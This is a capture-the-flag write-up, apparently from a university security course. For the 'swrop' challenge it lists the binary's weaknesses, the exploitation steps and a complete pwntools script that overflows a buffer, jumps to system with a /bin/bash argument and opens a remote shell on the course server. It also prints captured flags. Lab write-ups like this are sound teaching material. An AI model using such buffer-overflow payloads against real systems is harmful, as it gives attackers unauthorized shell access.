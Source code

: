 `6447{1403f546-2002-4f3a-8da7-13493dc643b7}`


swrop
===========================

General overview of problems faced
-------------------------------------
- Learning to use gadgets correctly
- Learning to beat ASLR and non-executable stack

List of vulnerabilities
------------------------
1. PIE wasn't turned on
2. System syscall was left in the binary along with the address of /bin/sh

Steps to exploit
------------------
1. Use checksec to find out which security measures have been used, only NX is enabled
2. Disassemble the file and notice System is left in the binary, so record the address of system and record the address of /bin/bash used in .rodata
3. Find a buffer that is large enough to cause an overflow that redirects to system syscall than call /bin/bash 

Script/Command used
------------------
```
#!/usr/bin/env python

from pwn import *
from time import sleep
import re

p = remote('wargames.6447.sec.edu.au', 8003)
#p = process('./swrop')

# 0x08048600: "/bin/bash"
bash_addr = 0x08048600
# 0x080484d8: call system
gadget_addr = 0x080484d8

p.recv()
payload = 'A'*0x8c + p32(gadget_addr) + p32(bash_addr)
p.sendline(payload)

p.interactive()
```

`6447{1feda6d2-8033-4c40-86cb-f46c2ad98888}`


static
===========================

General overview of problems faced
-------------------------------------
- Learning to use a rop chain
- Learning how to beat non-excutable stack
